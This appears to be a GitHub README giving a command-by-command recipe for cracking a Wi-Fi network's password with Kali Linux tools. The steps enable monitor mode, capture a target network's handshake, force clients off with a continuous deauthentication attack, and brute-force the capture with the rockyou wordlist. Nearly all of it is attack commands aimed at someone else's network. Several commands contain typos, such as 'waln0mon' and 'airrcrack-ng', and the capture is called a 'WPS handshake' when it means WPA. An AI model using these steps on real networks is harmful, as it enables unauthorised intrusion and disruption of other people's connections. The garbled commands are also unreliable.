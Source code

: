 # WIFI-CRACK-USING-KALI-LINUX

# NOTE:
This technique will search the password after taking WPS handshake. All commands should be run on kali linux terminal.
The rockyou.txt file contains a large amount of passwords.

#commands

*open terminal and go to the directory*
- /usr/share/wordlists/rockyou.txt.gz

*unzip the rockyou file using command*
- gunzip rockyou.txt.gz

*open new terminal*
- if config
- airmon-ng start wlan0
- airmon-ng check kill
- airodump-ng waln0mon
*shows network around you and when you see your desired network you can stop searching using ctril+c*

- airodump-ng -w test -c *target network's channel* --bssid *target network's mac address* waln0mon

*open new terminal*
- aireplay-ng -0 0 -a *target network's mac* wlan0mon

*go to the window where you extract the rockyou file*
- airrcrack-ng -w rockyou.txt test-01.cap
